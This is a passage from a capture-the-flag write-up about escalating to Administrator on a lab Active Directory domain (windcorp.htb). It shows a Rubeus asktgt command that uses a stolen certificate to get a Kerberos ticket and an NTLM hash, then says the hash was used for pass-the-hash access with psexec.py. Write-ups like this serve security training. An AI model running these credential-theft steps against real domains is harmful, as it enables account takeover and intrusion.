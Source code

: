   PSParentPath: Microsoft.PowerShell.Security\Certificate::currentuser\my

Thumbprint                                Subject                                                                      
----------                                -------                                                                      
1C7115A30632E82A04A73417975975193492958

<strong>PS C:\Windows\Tasks> .\rubeus.exe asktgt /user:Administrator /getcredentials /certificate:1C7115A30632E82A04A73417975975193492958
</strong><strong>&#x3C;TRUNCATED>
</strong> ServiceName              :  krbtgt/windcorp.htb
  ServiceRealm             :  WINDCORP.HTB
  UserName                 :  Administrator
  UserRealm                :  WINDCORP.HTB
  StartTime                :  1/26/2022 2:02:44 PM
  EndTime                  :  1/27/2022 12:02:44 AM
  RenewTill                :  2/2/2022 2:02:44 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  eFQWOai0Ha57hYJqqDcGUA==
  ASREP (key)              :  B98F843C14877A1B3AF0F77C3A82999E

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 3CCC18280610C6CA3156F995B5899E09
</code></pre>

Then, using this hash, we can easily `psexec.py` in as the administrator and grab the root flag:

<figure><img src="../../../.gitbook/assets/image (2218).png" alt=""><figcaption></figcaption></figure>

This part was pretty hard for me, and I had to use a walkthrough because I couldn't find the right tools to use. Great machine though!&#x20;
